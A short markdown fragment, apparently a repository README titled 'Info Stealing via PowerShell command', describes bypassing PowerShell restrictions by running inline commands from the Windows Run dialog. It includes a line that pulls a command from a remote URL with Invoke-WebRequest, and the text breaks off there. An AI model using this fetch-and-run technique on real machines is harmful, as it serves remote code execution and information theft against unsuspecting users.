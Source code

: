 # Info Stealing via PowerShell command

## ByPass PowerShell restriction

Using "run" application to run powershell command inline:

    - powershell Write-Host "Test"; Start-Sleep -Seconds 1
    - powershell $rawcmd = Invoke-webrequest -URI https://...